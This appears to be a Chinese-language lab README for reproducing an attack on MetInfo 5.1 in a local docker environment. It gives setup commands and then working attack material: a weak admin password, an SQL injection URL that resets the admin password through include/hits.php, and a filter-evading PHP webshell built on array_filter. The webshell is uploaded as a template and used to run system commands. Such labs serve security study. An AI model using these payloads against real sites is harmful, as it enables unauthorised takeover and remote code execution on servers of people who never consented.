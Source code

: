## 启动环境

```
docker-compose build
docker-compose up -d
```
或者是从hub下载
```
doker pull s1r1u5/php-fpm_meinfo_5_1:5.6
s1r1u5/mysql_metinfo_5_1:5.7
```

## 后台登录
通过弱口令admin:123456进入http://127.0.0.1:8002/admin/login/login.php 后台，
或者是通过http://127.0.0.1:8002/include/hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_introduction=admin_pass,admin_pass=md5(1)+WHERE+id=1%23 将密码重置为1
![](luffy3.png)

## 上传木马
Metinfo的后台可以通过上传模版的方式获得webshell,在界面风格->模版风格->添加新模板处
![](luffy.png)


但是后台对于一些危险的函数比如eval,asssert,system进行了过滤，所以需要一个特殊的木马
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_filter($arr, $e);
?>
写到php文件里打包成zip，通过界面风格->添加新模版
然后通过访问http://10.0.0.9:8082/templates/trojan.php?e=assert post pass=system("ls");即可执行命令

![](luffy2.png)


